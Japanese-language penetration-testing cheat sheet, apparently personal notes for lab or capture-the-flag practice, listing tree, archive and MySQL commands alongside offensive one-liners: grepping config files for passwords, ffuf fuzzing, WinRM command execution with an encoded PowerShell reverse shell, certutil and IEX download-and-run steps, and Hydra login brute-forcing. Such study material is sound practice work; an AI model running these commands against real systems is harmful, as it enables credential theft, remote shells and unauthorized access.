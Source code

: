 ## ## tree

| コマンド例           | 説明                                       |
| --------------- | ---------------------------------------- |
| `tree -L 2`     | 深さ2まで表示（サブディレクトリが多い時に便利）                 |
| `tree -a`       | **隠しファイル（.dotfiles）も含めて表示**              |
| `tree -f`       | **フルパスで表示**（後でコピペしやすい）                   |
| `tree -pug`     | **パーミッション、所有者、グループ**付きで表示（権限確認に便利）       |
| `tree -h`       | **ファイルサイズを人間に読みやすく表示**（KB/MB/GB）         |
| `tree -I '*.log | *.tmp'`                                  |
| `tree -s`       | **サイズ順に並べる**（-Dと併用すると日時も表示可能）            |
| `tree -C`       | **色付き出力**（デフォで有効な場合も）                    |
| `tree -Q`       | **ファイル名をダブルクォートで囲む**（スペース入りファイル名がわかりやすい） |

### ### 情報収集向き
```sh 
tree -a -f -pug -h -L 3
```

---

## ## 圧縮コマンド
### ### tar
```sh
tar cvzf ファイル名.tar.gz 圧縮対象ディレクトリ/
```

### ### zip
```
zip -r FILENAME.zip FILE_DIR
```

---
## ## 解凍コマンド
### ### 7z
```sh
7z x file.7z
```

### ### tar.gz
```sh
tar -zxvf filename.tar.gz
```



---
## ## 複数のファイルから特定の文字列を見つける方法
### ### Find
```sh
find /mnt/remote -type f -name '*.config' -exec grep -iH 'password' {} +
```
- オプションの説明：
	-  `find` コマンド部分
		- `/mnt/remote` ← 対象ディレクトリ
		- `-type f` ← 通常ファイルのみ検索（ディレクトリは無視）
		- `-name '*.config'` ← `.config` で終わるファイル名のみ対象
		- `-exec ... {} +` ← 見つけたファイルを `grep` に**まとめて渡す**
    - `grep` コマンド部分
		- `-i` ← **大文字小文字を無視**して「password」を検索（例：`PASSWORD`, `PassWord` もOK）
	    - `-H` ← ヒットした行の前に**ファイル名を表示**
	
---
### ### バイナリファイルを読む方法
```sh
strings hoge.sdf | less
```

---
# # SQLコマンド
# # MySQL コマンド
## ## ログイン
```sh
mysql -u root -h 127.0.0.1 -e 'show databases;'
```

---
# # FFUF
## ## Recuest.txtを作成し、Fuzzingを行う方法
```sh
ffuf -request ./req.txt -w wordlist.txt
```
- この際のリクエストファイルの中に列挙したい箇所をFUZZとして置く必要がある。
```sh
POST /forgot/ HTTP/1.1
Host: 10.10.11.113:8080
Content-Length: 25
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.11.113:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.113:8080/forgot/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

email=FUZZ
```

## ## Proxyを指定する方法
- `-x`をつければいい
```sh
ffuf -request ./req.txt -w /opt/wordlists/ssti.fuzz -v -x http://127.0.0.1:8080
```

---
# # WinRM
## ## Windowsからコマンドの実施
- RCE
```powershell
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123! "cmd /c hostname & whoami"
```

- ReverseShell
```powershell
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123! "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

---
# # ファイル転送
## ## HTTP/HTTPS
- リッスン側
```sh
sudo python3 -m http.server 80

# -dで任意のディレクトリを指定できる。
python3 -m http.server -d /opt/somedir
```

- ダウンロード側
Linuxの場合:
```sh
wget http://<HTTPサーバのIP>:<ポート番号>/<ファイル名> -O <お好みのファイル名>

curl http://<HTTPサーバのIP>:<ポート番号>/<ファイル名> -o <お好みのファイル名>
```
Windowsの場合:
```
C:\> certutil -URLcache -f http://<HTTPサーバのIP>/file file

PS C:\> powershell -c "Invoke-Webrequest -OutFile <お好みのファイル名> -Uri http://<HTTPサーバのIP>/<ファイル名>"

PS C:\> IEX(New-Object Net.WebClient).downloadString('http://<HTTPサーバのIP>:<ポート番号>/<ファイル名>')
```


# # 参考資料
- https://qiita.com/Hashibirokou/items/5fbb2e94ca42434e4575

---
# # Hydra
## ## http/https
```sh
# POST Method
## ↓文字一致で判断(部分一致でもOK)
hydra -L /opt/wordlists/names.txt -p baconandcheese http-post-form "//umbraco/backoffice/UmbracoApi/Authentication/PostLogin:"username":"^USER^","password":"^PASS^":F=failed"

## ステータスベース(誤検知が多いので注意)
hydra -l admin -P passwords.txt 10.10.10.10 http-post-form "/login:username=^USER^&password=^PASS^:S=302"
```
---
